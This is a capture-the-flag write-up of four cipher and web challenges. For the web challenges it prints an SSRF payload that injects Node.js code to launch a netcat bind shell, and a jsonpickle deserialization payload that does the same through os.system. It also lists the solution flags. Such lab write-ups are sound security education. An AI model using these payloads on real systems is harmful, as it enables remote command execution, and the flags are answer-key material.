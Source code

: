 # #CTFFriday 2020MayWeek5 

* Date: 29th May 2020
* Time: 2:00 to 3:00 PM

## Organized By

 ![](media/0.png)   

 <span style="color:red"> Net Square Solutions Pvt. Ltd.</span>                              

## About Me

Hi,

I am [Smit Patel](https://twitter.com/smit_2307) and I am currently working as a Security Analyst at  [Net Square Solutions Pvt. Ltd.](https://net-square.com) I participated in ctf as ```sk```


## Overview

This ```CTF``` is build by [Kalyan Reddy](https://twitter.com/3kr426) . There were 4 challenges based on Cryptography and Web. For solving this challanges you need basic knowladge of Crptography, Python deserialization and SSRF. 

<h3>Challenge-1</h3>

**Hints :**

* Hint for the first flag is Fernet

**Description :**

* For the first flag we have to download one `zip` file and that zip file contained one text file named ```key.txt```. Then i opended That text file. 

 ![](media/1.png)

* Then i observed hint and i got to know that it was a ```Fernet symmetric encryption``` cryptography and then I used online Fernet decoder and i entered that token and key. after that i got the first flag.

* ```nsctf{Y3h_b@burao_ka_style_hai}``` 

 ![](media/2.png)

<h3>Challenge-2</h3>

**Hints :**

* Hint for the second flag is

   First hint:

   ![](media/23.png)
    
   second hint:
    
   ![](media/22.png)

**Description :**

* Now for the second Flag we have to Download another `zip` file and that file contained following strings:

 ![](media/3.png)

* After the observation i got to know that `Multi-Tap Phone cipher` is used here and then i used online [Multi-tap Phone Cipher](https://www.dcode.fr/multitap-abc-cipher) and entered that string and i got following text 

* `MHXGUBLFZIVTIVZGVIGSZMBLFIZWWRXGRLM`

 ![](media/4.png)

* From the second hint i observed the text and i got to know that it was an `Atbash Mirror cipher`

* So first of all the Atbash cipher is a particular type of monoalphabetic cipher formed by taking the alphabet and mapping it to its reverse, so that the first letter becomes the last letter, the second letter becomes the second to last letter, and so on. 

* Then i used online [Atbash cipher](http://rumkin.com/tools/cipher/atbash.php) decoder and i got the second flag.

* `NSCTFYOUAREGREATERTHANYOURADDICTION`

 ![](media/5.png)

<h3>Challenge-3</h3>

**Hints :**

* first hint is Try to identify the open ports by using loopback address
* second hint is After identifing the port Try to get the bind shell by using node js.

**Description :**

* Third challenge is based on web. For this challenge we have to open one link. 

 ![](media/6.png)

* After that i entered some text into submit query field on that link and intercepted that request using `Burpsuite` tool and sent that request to repeater and observed the response.

 ![](media/7.png)

* From the first hint i tried SSRF by entering this payload  `http://127.0.0.1:80` in url field and i observed the response. 

 ![](media/8.png)

* After that i sent that request to Intruder for scanning the ports and set the position and started attack by clicking on start attack button.

 ![](media/9.png)

* By oobserving the result of attack i got to know another hint at port number `3000`.

 ![](media/21.png)

* Then i got to know that here `Node.js` programming language is used by Wappalyzer extension.

 ![](media/11.png)

* Then i tried this paylod `http://127.0.0.1:3000` in url field and i got another clue from the response. 

 ![](media/12.png)

* From the second hint i tried to get bind shell for that i used this payload `http://127.0.0.1:3000?cmd=require("child_process").exec('nc -lvp 4444 -e /bin/sh')`  in url field. 

 ![](media/13.png)

* Then i used Netcat to get bind shell for that i used following command `nc -v 10.90.137.137 4444` 
and i got the third flag.

* `nsctf{Tann_buddha_hove_hai ... mann_buddha_nahi_hota}`

 ![](media/14.png)

<h3>Challenge-4</h3>

**Hints :**

* Intercept the request identify the vulnerability and try to exploit.
* Take the bind shell by using the jsonpikle

**Description :**

* For the fourth flag one link is given. 

 ![](media/15.png)

* From the first hint i intercepted that request by `Burpsuite` tool and observed the request then i got to know that there is some encoded value in `username` parameter. 

 ![](media/16.png)

* Then i copied that encoded value and pasted in burpsuit decoder tab and tried to decode it. After decoding i got following text:

 `{"py/object": "__main__.User", "username": "Bobmarley"}` 

*  Here we have `py/object` it indicates that json pickle was used on server side.

 ![](media/17.png)

* From the second hint i got to know that i have to take a bind shell using jsonpickle for that i encoded This payload into base64.

 ```{"py/object": "_main_.Shell", "py/reduce": [{"py/function": "os.system"}, ["nc -lvp 4444 -e /bin/sh"], 0, 0, 0]}```

 ![](media/18.png)

* Then i entered that encoded value into username field and forwarded that request.

 ![](media/19.png)

* Then i used netcat to get bind shell on port number 4444 and i got the fourth flag.

* `nsctf{d0n't_dr!nk_@nd_Dr!v3_y0u_can_smoke_@nd_fly}`

 ![](media/20.png)

-------
**It was a very nice CTF by [Kalyan Reddy](https://twitter.com/3kr426). We had lots of fun by solving it and learnt new things.**

 Here are the scoreboard of CTF.

 ![](media/24.png)

